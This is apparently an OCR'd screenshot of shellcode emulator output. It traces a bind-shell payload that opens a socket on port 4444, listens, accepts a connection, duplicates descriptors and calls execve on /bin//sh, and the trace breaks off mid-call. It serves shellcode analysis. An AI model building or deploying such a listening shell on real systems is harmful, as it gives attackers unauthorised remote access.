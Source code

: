 execve
int execve (const char *dateiname=00416fb2={/bin//sh}, const char * argv[], const char *envp[]);
[emu 0x0x155a630 debug ] cpu state    eip=0x0041704e
[emu 0x0x155a630 debug ] eax=0x0000000b  ecx=0x00416faa  edx=0x00000000  ebx=0x00416fb2
[emu 0x0x155a630 debug ] esp=0x00416faa  ebp=0x00000000  esi=0x00000001  edi=0x00000000
[emu 0x0x155a630 debug ] Flags: PF SF 
[emu 0x0x155a630 debug ] 0000                            add [eax],al
cpu error error accessing 0x00000004 not mapped

stepcount 112
[emu 0x0x155a630 debug ] cpu state    eip=0x00417050
[emu 0x0x155a630 debug ] eax=0x0000000b  ecx=0x00416faa  edx=0x00000000  ebx=0x00416fb2
[emu 0x0x155a630 debug ] esp=0x00416faa  ebp=0x00000000  esi=0x00000001  edi=0x00000000
[emu 0x0x155a630 debug ] Flags: PF SF 
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000010 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (